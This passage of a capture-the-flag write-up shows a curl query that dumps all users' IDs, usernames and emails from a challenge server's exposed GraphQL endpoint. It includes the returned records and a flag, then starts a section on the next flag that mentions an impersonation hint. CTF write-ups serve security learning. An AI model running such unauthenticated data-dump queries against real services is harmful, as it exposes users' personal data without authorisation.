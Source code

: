 I saw that there is an exposure of GraphQL so I tried to get the database

```bash
curl -s -X POST http://challenge.nahamcon.com:31630/api/v2/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ users { id username email } }"}' \
  | jq -r '.data.users[] | "ID: \(.id) | Username: \(.username) | Email: \(.email)"'
```

and i got this

```bash
ID: 359fb73c-cbe8-4b1b-b7d9-fa26c4ed1f0b | Username: nahamsec | Email: nahamsec@bugbounty.ctf
ID: 5b2d7302-a424-4c41-9412-b378acedda08 | Username: rhynorater | Email: rhynorater@bugbounty.ctf
ID: 15ee453d-18c7-419b-a3a6-ef8f2cc1271f | Username: stok | Email: flag_4{253a82878df615bb9ee32e573dc69634}
ID: 4d513e52-a79a-417a-8199-cc091220f340 | Username: shubs | Email: shubs@bugbounty.ctf
ID: bbccd010-bbd0-4b48-9c34-f4e151c4d9e4 | Username: fattselimi | Email: fattselimi@bugbounty.ctf
ID: 30ec2071-eb96-4785-9a9a-c79b438f6181 | Username: insiderphd | Email: insiderphd@bugbounty.ctf
ID: cbba1083-0b54-4b66-aafd-350eea037d38 | Username: inti | Email: inti@bugbounty.ctf
ID: 874d18fc-3479-4cae-a915-01b0bb7a6c49 | Username: renniepak | Email: renniepak@bugbounty.ctf
ID: fd55a401-b110-4821-9155-add4653cb992 | Username: hacker | Email: hacker@bugbounty.ctf
```

Flag
```bash
flag_4{253a82878df615bb9ee32e573dc69634} 
```

---

### The Mission - Flag #6

### Solution

![Bot](Images/img12.png)

Asked for a hint from the bot and it says impersonation technique
